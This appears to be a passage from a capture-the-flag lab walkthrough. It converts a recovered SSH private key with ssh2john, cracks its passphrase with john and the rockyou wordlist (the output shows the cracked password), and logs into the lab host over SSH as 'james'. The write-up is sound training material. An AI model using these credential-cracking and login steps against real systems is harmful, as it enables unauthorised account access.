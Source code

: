 ```
ssh2john id_rsa > id_rsa.txt
```

> Now we can run john on this `id_rsa.txt` to get the password.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt  
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2023-08-01 16:55) 50.00g/s 668800p/s 668800c/s 668800C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> We see the password is `james13`.
> From the website, we see the username `James` alot. So using that username, the password we cracked, and the private ssh key, we can login via ssh to the machine.

> First, we need to change permissions for the `id_rsa` for it work.

```shell
chmod 600 id_rsa
```

> Then we can connect.

```
ssh -i id_rsa James@10.10.144.126
```

> Doesn't work.
> Trying the username without the capital letter and passowrd `james13`.

```
ssh -i id_rsa james@10.10.144.126
```

> It works, and we are now logged in as james into the machine.

![](./screenshots/ssh.png)
